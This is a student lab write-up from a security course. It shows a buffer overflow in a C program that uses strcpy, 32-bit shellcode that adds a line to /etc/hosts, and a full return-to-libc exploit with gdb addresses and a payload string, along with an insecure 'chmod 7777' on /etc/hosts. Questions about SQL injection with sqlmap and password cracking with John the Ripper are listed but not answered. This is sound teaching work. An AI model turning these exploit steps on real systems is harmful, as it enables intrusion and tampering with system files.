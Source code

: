 # LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**
![alt text](./image/image.png)

Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

**Get shell code of run_file.asm by this command**
```
for i in $(objdump -d run_file.asm |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![alt text](./image/image-1.png)


We can use return-to-libc to solve the problem

Đặt biến môi trường 

```
export MYBUF="/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

```


Xem lại biến môi trường bằng câu lệnh

```
env | grep MYBUF
```

Connect gdb to find the address of system, exit and the value "/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

After run the program by in gdb:

```r``` 

find the address by this command step by step
```
p system
p exit
find /home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file
```

![alt text](./image/imag-8.png)

system: 0xf7e50db0
exit: 0xf7e449e0
/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file: 0xffffd933


Stackframe 
![alt text](./image/image-4.png)


Using the stack frame, we can calculate the payload to write:

`padding (20 bytes) + address of system + address of exit + address of MYBUF’s value (/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file)`

this command must to be: 

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

exit gdb and connecting again

Run program by the command:

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```
Check /etc/hosts folder by:
```
sudo cat /etc/hosts
```
![alt text](./image/image-5.png)

Why isn’t Google.com’s address listed here?


We need to configure permissions for the `/etc/hosts file.`

Set permissions by the command:
```
sudo chmod 7777 /etc/hosts
```
- sudo: Runs the command as superuser (root).
- chmod 7777: Gives read, write, execute permissions to everyone, plus SUID, SGID, and sticky bit.
- /etc/hosts: A critical system file that maps hostnames to IP addresses.

Connect gdb and run program again:
![alt text](./image/image-6.png)

Check folder /etc/hosts again

![alt text](./image/image-7.png)

Successfully!


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
